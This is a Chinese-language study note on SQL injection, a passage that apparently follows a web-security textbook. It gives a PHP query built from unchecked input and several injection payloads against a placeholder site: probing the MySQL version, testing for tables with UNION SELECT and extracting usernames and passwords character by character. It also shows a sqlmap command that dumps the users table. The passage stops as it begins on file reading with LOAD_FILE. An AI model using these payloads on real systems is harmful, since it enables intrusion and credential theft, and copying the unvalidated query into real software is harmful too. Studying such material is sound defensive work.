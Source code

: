 ```yaml
---
title: "注入攻击"
date: 2019-07-10T19:43:10+08:00
tags: [""]
categories: ["系统理论课程", "白帽子讲WEB安全"]
---
```



> Akamai 在 2019 年研究表明 65.1% 的 Web 应用程序攻击来自 SQL 注入

SQL 注入的两种分类：

1. 盲注：在服务器没有错误回显时完成的注入攻击。

2. Timing Attack：利用 MySQL 的 `BENCHMARK()` 函数。

## 数据库攻击技巧

### 常见攻击技巧

我们假设后台的服务存在这样一个没有校验的语句：

```php
$id = $_GET["id"];
$sql = "select title,description,body from items where id=".$id;
```

SQL 注入时基于数据库的一种攻击。不同的数据库有着不同的功能、不同的语法和函数：

1. SQL 注入可以猜解出数据库的对应版本，比如下面这段 Payload，如果 MySQL 的版本是 4，则会返回 TRUE：

   ```sql
   http://victim.com/index.php?id=5 and substring(@@version, 1, 1)=4
   ```

2. 测试表名 `admin` 是否存在，列名 `passwd` 是否存在：

   ```sql
   http://victim.com/index.php?id=5 union all select 1,2,3 from admin
   
   http://victim.com/index.php?id=5 union all select 1,2,passwd from admin
   ```

3. 想要进一步猜解除 `username` 和 `password` 具体的值，可以通过判断字符的范围读出来：

   ```sql
   http://victim.com/index.php?id=5 and ascii(substring((select concat(username, 0x3a, passwd) from users limit 0,1),1,1))>64
   ....
   ```

   可见利用一个 `sql` 注入的过程非常繁琐，所以非常有必要使用一个自动化的工具来帮助完成整个过程，`sqlmap` 就是一个非常好的自动注入工具：

   ```bash
   python sqlmap.py -u "http://victim.com.index.php?id=5" --dump -T users
   ```

4. 在 MySQL 中，可以通过 `LOAD_FILE()` 读取文件系统，并且通过 `INTO DUMPFILE` 写入本地文件。另外，如果要将文件读出后，再把结果返还给攻击者，可以使用下面的技巧：
